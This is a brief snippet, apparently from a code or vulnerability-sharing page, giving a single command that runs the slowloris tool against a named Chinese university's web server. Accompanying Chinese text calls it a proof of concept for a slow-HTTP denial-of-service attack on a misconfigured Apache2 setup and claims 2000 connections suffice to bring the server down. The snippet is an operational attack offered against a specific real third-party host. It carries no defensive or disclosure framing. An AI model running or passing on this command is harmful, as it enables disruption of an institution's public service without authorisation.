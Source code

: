  python2 slowloris.py -u www.jxycu.edu.cn
 
 宜春学院apache2配置不当导致SLOWHTTP攻击POC
 
 可最小代价导致服务器down机，链接数2000即可

